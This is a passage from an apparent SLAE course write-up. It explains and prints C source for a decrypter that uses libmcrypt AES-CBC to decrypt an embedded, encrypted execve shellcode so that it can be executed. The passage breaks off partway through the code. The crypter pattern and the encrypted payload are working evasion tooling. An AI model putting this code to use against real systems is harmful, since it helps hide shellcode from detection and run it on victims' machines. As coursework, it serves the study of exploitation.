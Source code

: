 The decryption vector is basically a concatenation of the encryption key supplied as an argument and the randomly generated encryption vector obtained during encryption. This vector is written as a single string, but is broken up during decryption into its respective parts. 

The decryptor decrypts the encrypted shellcode by using `mdecrypt_generic()`, and executes the result.

For the sake of illustration and clarity, here is the decrypter implementation:

### a7-decrypter.c
```c
/*
 *	SLAE Assignment 7: Decrypter
 *
 *	gcc a7-decrypter.c -o a7-decrypter -std=c99 -lmcrypt
 *
 *
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <mcrypt.h>



// crypted execve shellcode
unsigned char code[] = \
"\xee\xd0\x97\xdb\x42\xd0\x5\xa4\xae\xe4\xfa\x7a\xbb\x5d\x9\x63\x5c\xce\x37\x61\x9d\x2a\x2b\xe\x25\x10\x87\xbe\xa3\x7a\x54\xb6";

unsigned char vector[] = \
"\x6c\x6f\x6c\xab\xd1\xa7\xc6\xa6\xd6\x9d\x5f\x8f\x56\x0e\x0c\xe3\x6a\x41\xad";



int main() 
{
	MCRYPT m;
	if ((m = mcrypt_module_open("rijndael-128", NULL, "cbc", NULL)) == MCRYPT_FAILED) { printf("MCRYPT failed\n"); return 0; }
	
	int key_len = strlen(vector) - mcrypt_enc_get_iv_size(m);
	unsigned char* key = malloc(key_len);
	unsigned char* iv = malloc(mcrypt_enc_get_iv_size(m));

	memcpy(key, &vector, key_len);
	memcpy(iv, &vector[key_len], mcrypt_enc_get_iv_size(m));
	
	if (mcrypt_generic_init(m, key, strlen(key), iv) < 0) { printf("init failed\n"); return 0; }
	if (mdecrypt_generic(m, code, strlen(code))) { printf("decrypt failed\n"); return 0; }
	if (mcrypt_generic_deinit(m) < 0) { printf("deinit failed\n"); return 0; }
	mcrypt_module_close(m);

	printf ("[*] Vector: ");
	for (int i = 0; i < strlen(vector); i++) { 
		printf("%02x", vector[i] & 0xff); 
	}
	printf ("\n[*] Vector Length: %d\n", strlen(vector));
	printf ("[*] Key: ");
	for (int i = 0; i < strlen(key); i++) { 
		printf("%02x", key[i] & 0xff); 
	}
	printf ("\n[*] Key Length: %d\n", key_len);
	printf ("[*] IV: ");
```
